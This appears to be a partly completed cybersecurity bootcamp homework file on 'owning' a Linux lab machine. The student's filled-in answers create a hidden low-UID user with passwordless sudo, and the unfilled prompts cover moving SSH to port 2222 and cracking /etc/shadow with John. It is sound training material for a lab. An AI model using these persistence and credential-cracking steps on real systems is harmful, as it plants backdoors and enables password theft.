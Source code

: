 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - adduser --no-create-home sysd

2. Give your secret user a password: 
    - When prompted for password for user, enter the password. I did SupaMar10

3. Give your secret user a system UID < 1000:
    - usermod -u 202 sysd

4. Give your secret user the same GID:
   - groupmod -g 202 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  visudo
   -  in the sudoers file, append at the end: 
   -  sysd ALL = NOPASSWD: ALL

6. Test that `sudo` access works without your password:
   -  logged in to server as sysd in a new terminal, just to be safe if I made any syntax errors in sudoers

    ```bash
    ssh sysadmin@192.168.6.105 -p 22
    entered password
    sudo su sysd 
    sudo -l
    sudo -u root whoami
    ```
    Both output expected results from someone with sudo access, without asking for a password.

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Your bash commands here
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `Your solution command here`

2. Exit the `root` account:
    - `Your solution command here`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `Your solution command here`

4. Use `sudo` to switch to the root user:
    - `Your solution command here`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `Your solution command here`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `Your solution command here`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

